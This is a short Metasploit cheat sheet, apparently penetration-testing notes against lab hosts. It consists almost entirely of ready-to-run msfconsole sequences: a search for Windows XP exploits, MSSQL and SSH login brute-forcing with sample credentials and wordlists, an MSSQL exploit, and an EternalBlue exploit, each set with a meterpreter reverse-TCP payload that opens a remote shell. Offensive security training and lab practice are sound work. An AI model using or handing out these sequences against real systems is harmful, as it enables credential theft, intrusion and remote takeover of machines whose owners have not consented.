 ### msfconsole
search exploit
```bash
msf> search cve:2011 port:135 platform:windows target:XP
```

basic
```bash
msfconsole
use auxiliary/scanner/mssql/mssql_login
set rhosts 10.10.10.110
set rports 1433
set username admin
set password 12345
set verbose true
run
```
### msfconsole examples
msssql enum
```bash
use auxiliary/scanner/mssql/mssql_enum
set username admin
set password 12345
set rhosts 10.10.10.177
set rport 1433
run
```

mssql payload
```bash
use exploit/windows/mssql/mssql_payload
set rhosts 10.10.10.177
set rport 1433
set srvport 53
set username admin
set password qwerty
set payload windows/x64/meterpreter_reverse_tcp
```

ssh login enum (brute)
```bash
use auxiliary/scanner/ssh/ssh_login
show options
set rhosts 10.10.10.133
set user_file /usr/share/ncrack/minimal.usr
set pass_file /usr/share/ncrack/minimal.usr
set verbose true
run
```

eternal blue example:
```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
set payload windows/x64/meterpreter/reverse_tcp
```
